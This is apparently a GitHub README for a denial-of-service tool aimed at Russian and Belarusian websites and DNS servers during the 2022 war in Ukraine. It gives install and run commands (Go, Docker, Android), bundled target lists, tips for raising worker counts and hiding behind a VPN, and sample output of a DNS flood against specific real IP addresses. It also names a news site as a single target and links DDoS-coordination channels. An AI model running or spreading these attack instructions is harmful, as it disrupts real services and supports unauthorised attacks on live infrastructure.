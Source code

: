 [![Github All Releases](https://img.shields.io/github/downloads/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/total.svg)](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/releases)
[![Go Report Card](https://goreportcard.com/badge/github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj)](https://goreportcard.com/report/github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj)
![Build@release](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/actions/workflows/release.yml/badge.svg)
![Tests@main](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/actions/workflows/test.yml/badge.svg)

### Hi there 👋

If this repo becomes taken down, then it is a sign that GitHub supports war atrocities commited by putin!

IMPORTANT!!! Please take your security seriously and use VPN while running this software from your own devices(PC/Laptop/Android/etc)!

NOTE: Since this app is not signed by any certificate for obvious reasons, Windows Defender will complain that this app is from an unknown source. It is safe to run this app anyway **unless it was downloaded from another location**. In which case the app may be altered, so be vigilant and compare the hashes of your binaries!

![GUI](Capture.JPG)

This repository was created in order to help defend against Russia propaganda during the war activities of Russian armies in Ukraine 2022.

There are two variants of the program:
- GUI
- CLI

For GUI simply download the latest program for your operating system from the Releases section.
It is possible to run CLI program using Docker.


# Usage
## Desktop App
- `RusskijKorablIdiNaxuj.exe.zip` for Windows platforms 
- `RusskijKorablIdiNaxuj.apk` for Android platforms 
- `RusskijKorablIdiNaxuj.tar.xz` for Linux platforms 
- Please build manually for Mac-OS. 

After executing the binary there will be a window similar to the one in the screenshot above. If you have a less formidable PC, then reduce "Workers" number to something like 500.
Then you can click on the little triangle on the right and start the process.

## Command line

Just clone this repo, install Go and from clonned directory do (preferrably on a VPS that is close to Russia):
```
$ go run ./cmd/RusskijKorablIdiNaxuj-cli -i targets/targets.txt
```

Also, you can install the GUI executable using this command(although you will still need Fyne dependencies for your system):
```
go install github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj@latest
```

Or the following command for the cli version:

```
go install github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/cmd/RusskijKorablIdiNaxuj-cli@latest
```

NOTE: It may consume a lot of RAM as it tries to leave connections open for a as long time as possible. Minimum 4GB is needed.

## Docker

You can run docker for all targets at the same time using this command:
```
$ docker run -d --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest
```

If it is crashing due to OOM:
```
$ docker run -d --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N 1000
```

You can also specify different target lists using `-i app/{target}.json`, where `{target}` can be one of:
 - all.json
 - belarus.json
 - russia.json
 - api.json
 - dns.json

It is possible to see attack progress using this command:
```
$ docker run -i --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N 1000 -i /app/dns.json -s=false
```
The output will be something like this:
```
root@putinhujlo-ch1:~/RusskijKorablIdiNaxuj# docker run -i --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N=5000 -i /app/dns.json -s=false
dns://194.54.14.186:53  0 % [---------------------------] 0 / -1
dns://194.54.14.186:53   5 % [>--------------------]  193 / 3978
dns://194.54.14.187:53   6 % [>--------------------]  226 / 3685
dns://194.67.7.1:53     94 % [===================>-] 4993 / 5284
dns://194.67.2.109:53   90 % [==================>--] 3058 / 3414
```

The progress bar shows how many timeouts there are relative to the requests per second. The higher this ratio to 100% the better!

NOTE: You can also specify single targets using `-i` command, e.g. `-i https://tass.ru/` (it must have either http or https. Also, `dns://` works too for dns query flood)

# Important resources

- International Ukraine DDOS Alliance Telegram: https://t.me/ukraineddos
- IT ARMY of Ukraine Telegram: https://t.me/itarmyofukraine2022

# Contribute targets/Code

Either create an issue or a PR.
